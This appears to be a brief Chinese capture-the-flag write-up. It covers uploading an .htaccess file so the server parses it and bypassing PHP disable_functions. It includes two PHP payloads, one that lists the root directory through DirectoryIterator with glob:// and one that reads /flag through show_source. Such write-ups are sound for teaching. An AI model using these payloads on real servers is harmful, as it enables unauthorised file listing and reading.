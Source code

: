 # 知识点
.htaccess配置文件<br />disable_function绕过
# 思路
上传配置文件进行解析<br />![image.png](./images/20231017_2359492191.png)<br />![image.png](./images/20231017_2359504365.png)<br />访问文件绕过disable_function进行命令执行
```php
hack=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```
```php
hack=show_source("/flag")
```
